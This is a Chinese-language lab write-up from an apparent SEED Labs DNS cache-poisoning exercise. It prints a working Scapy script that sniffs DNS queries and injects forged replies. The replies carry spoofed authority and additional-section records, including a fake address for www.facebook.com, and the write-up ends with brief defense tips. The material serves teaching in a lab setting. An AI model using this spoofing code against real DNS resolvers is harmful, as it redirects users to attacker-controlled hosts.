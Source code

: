 
## Task 9: Targeting the Additional Section
在DNS答复中，有一个称为“附加节”的节，用于提供附加信息。 实际上，它主要用于为某些主机名提供IP地址，尤其是在“AUTHORITY ”部分中显示的主机名。 该任务的目的是欺骗本节中的某些条目，并查看它们是否将被目标本地DNS服务器成功缓存。

```
from scapy.all import *
def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='122.207.86.18')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='ns.example.net')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='1.2.3.4')
        ar2 = DNSRR(rrname='ns.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')
        ar3 = DNSRR(rrname='www.facebook.com', type='A',
                    ttl=259200, rdata='3.4.5.6')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=3,
                  an=an1, ns=ns1/ns2, ar=ar1/ar2/ar3)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
在VMA上运行以上代码，在DNS服务器上清缓存，然后在VMB中`ping www.example.net`，再执行`dig www.example.com`可的下图内容。
![task9](https://github.com/SmallPond/SeedLabs/tree/master/_v_images/20191013181929641_6732.png)

# 实验总结
这个实现还比较简单的，从原理上也比较容易理解。实验的难点在于对DNS协议具体的内容熟悉。

那么如何防范DNS攻击呢？首先，最好使用公共DNS服务器，远离不受信任的网站，避免下载网页上的文件。定期查看hosts文件是否正常，是否被篡改。

总的来说，这个实验没什么新的知识可以汲取，不如CPU Cache攻击有意思。